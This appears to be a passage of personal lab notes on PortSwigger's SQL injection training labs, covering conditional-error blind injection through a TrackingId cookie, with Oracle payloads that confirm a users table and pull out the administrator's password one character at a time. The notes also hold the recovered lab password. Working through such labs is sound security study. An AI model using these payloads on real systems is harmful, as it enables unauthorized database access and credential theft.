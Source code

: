 Verifying that users table exist
- response 200 -> so it does exist
- `WHERE ROWNUM = 1` is preventing query from returning more than 1 row, that would break concatenation
```sql
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

### Test 2: divide-by-zero error
```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
-- error should be present
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/1) ELSE '' END FROM dual)||'
-- error must dissapear
```

### Checking for the specific entries
`Administrator`
- error should be received to verify value
```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

 Determining how many chars in the password
 - condition should be true indicating that the password is greater than 1 char in length
```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

We have indeed 20 chars
![[Pasted image 20241104100831.png]]

Testing char at each position to determine it's value
```sql
'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```
![[Pasted image 20241104101419.png]]

hnho3vmrh5n3z52755fk

## 🟦 Lab 13: Visible Error-Based SQL Injection
using unterminated string
![[Pasted image 20241104102243.png]]

```sql
'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';
```

## 🟦 Lab 14: ~~~ Lab: Blind SQL injection with time delays
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays
